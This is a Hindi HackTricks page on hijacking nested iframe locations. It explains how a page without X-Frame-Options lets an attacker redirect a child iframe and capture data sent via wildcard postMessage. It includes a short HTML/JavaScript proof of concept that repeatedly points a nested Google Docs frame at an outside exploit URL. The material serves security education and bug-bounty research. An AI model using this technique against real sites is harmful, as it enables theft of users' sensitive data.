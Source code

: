 # आईफ्रेम के स्थान को बदलना

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ जीरो से हीरो तक AWS हैकिंग सीखें!</summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को हैकट्रिक्स में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड करने का एक्सेस** चाहिए? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **ट्विटर** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, [हैकट्रिक्स रेपो](https://github.com/carlospolop/hacktricks) और [हैकट्रिक्स-क्लाउड रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके**।

</details>

## बच्चा आईफ्रेम के स्थानों को बदलना

[**इस व्राइटअप**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/) के अनुसार, यदि आप एक वेबपेज को आईफ्रेम कर सकते हैं जिसमें X-Frame-Header नहीं है और जिसमें एक और आईफ्रेम है, तो आप **उस बच्चा आईफ्रेम का स्थान बदल सकते हैं**।

उदाहरण के लिए, यदि abc.com के पास efg.com आईफ्रेम है और abc.com के पास X-Frame हेडर नहीं है, तो मैं efg.com को evil.com cross origin में बदल सकता हूं, **`frames.location`** का उपयोग करके।

यह विशेष रूप से **पोस्टमैसेज** में उपयुक्त है क्योंकि यदि कोई पेज **वाइल्डकार्ड** जैसे `windowRef.postmessage("","*")` का उपयोग करके संवेदनशील डेटा भेज रहा है, तो संबंधित आईफ्रेम (बच्चा या माता) का स्थान **हमलावर कंट्रोल किए गए स्थान पर बदलना** संभव है और उस डेटा को चुरा सकते हैं।
```html
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
//pseudo code
setTimeout(function(){ exp(); }, 6000);

function exp(){
//needs to modify this every 0.1s as it's not clear when the iframe of the iframe affected is created
setInterval(function(){
window.frames[0].frame[0][2].location="https://geekycat.in/exploit.html";
}, 100);
}
</script>
</html>
```
<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का हैकट्रिक्स में विज्ञापन देखना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटीज़**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक PEASS और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड ग्रुप**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम ग्रुप**](https://t.me/peass) और **ट्विटर** पर मुझे **फॉलो** करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**।**
* **अपने हैकिंग ट्रिक्स साझा करें, [हैकट्रिक्स रेपो](https://github.com/carlospolop/hacktricks) और [हैकट्रिक्स-क्लाउड रेपो](https://github.com/carlospolop/hacktricks-cloud) पर पीआर जमा करके**।

</details>

